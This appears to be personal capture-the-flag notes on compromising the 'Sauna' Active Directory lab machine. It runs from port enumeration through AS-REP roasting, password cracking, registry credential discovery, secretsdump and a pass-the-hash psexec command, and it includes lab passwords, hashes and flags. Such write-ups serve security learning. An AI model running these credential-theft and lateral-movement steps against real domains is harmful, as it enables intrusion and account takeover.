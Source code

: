 * Sauna
** enumeration
*** 53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
*** 80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home

~TRACE~ doesn't seem to work in practice, it returns a 501
~POST~ on the pages with forms doesn't seem to work in practice, it returns a 405

*** 88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-05-04 08:24:58Z)
*** 135/tcp  open  msrpc         Microsoft Windows RPC
*** 139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
*** 389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
*** 445/tcp  open  microsoft-ds?
❯ smbclient -L $TARGET
Enter WORKGROUP\user's password: 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
SMB1 disabled -- no workgroup available

*** 464/tcp  open  kpasswd5?
*** 593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
*** 636/tcp  open  tcpwrapped
*** 3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
*** 3269/tcp open  tcpwrapped
** foothold

We need an AD user/pass to gain a foothold likely, without any obvious web vuln.
GetNPUsers is a solid way to get a hash, and we can harvest the team members listed on the website as a source of potential usernames.

After trying a bunch of variations, I get one hit: *FSmith*.

~GetNPUsers.py egotistical-bank.local/FSmith -request -no-pass -dc-ip $TARGET~

JohnTheRipper can crack the password out of the hash: ~Thestrokes23~

Then ~evil-winrm~ should get us a shell.

~secretsdump~ doesn't seem to provide any further users.

~GetADUsers~ enumerates other users:

Name                  Email                           PasswordLastSet      LastLogon      
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2020-01-24 17:14:15.321116  2020-02-10 16:16:17.478519
Guest                                                 <never>              <never>        
krbtgt                                                2020-01-23 05:45:30.587720  <never> 
HSmith                                                2020-01-23 05:54:34.140321  <never> 
FSmith                                                2020-01-23 16:45:19.047096  2020-05-05 08:04:44.123781
svc_loanmgr                                           2020-01-24 23:48:31.678079  <never> 

~smbclient.py -target-ip $TARGET egotistical-bank.local/FSmith:Thestrokes23@TARGET~
gets a samba connection

*shares*:
 * ADMIN$
 * C$
 * IPC$
 * NETLOGON
 * print$
 * RICOH Aficio SP 8300DN PCL 6
 * SYSVOL

Seemingly evil-winrm and other impacket tools aren't working because I need to use a kerberos ticket instead of a password.

Also need to fix clock skew issue
Have to turn off ntp service with systemctl

... ~evil-winrm~ *does* work with just password, the machine just needed a reset?
USER: 1b5520b98d97cf17f24122a55baf70cf

** escalation

*** lateral

querying the registry for winlogon reveals a default password: Moneymakestheworldgoround! 
which works for svc_loanmgr

and secretsdump works for ~svc_loanmgr~

Now given the hash dump from svc_loanmgr, we can pass the hash with ~psexec~

❯ psexec.py -dc-ip $TARGET -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff egotistical-bank.local/administrator@sauna.egotistical-bank.local

ROOT: f3ee04965c68257382e31502cc5e881f
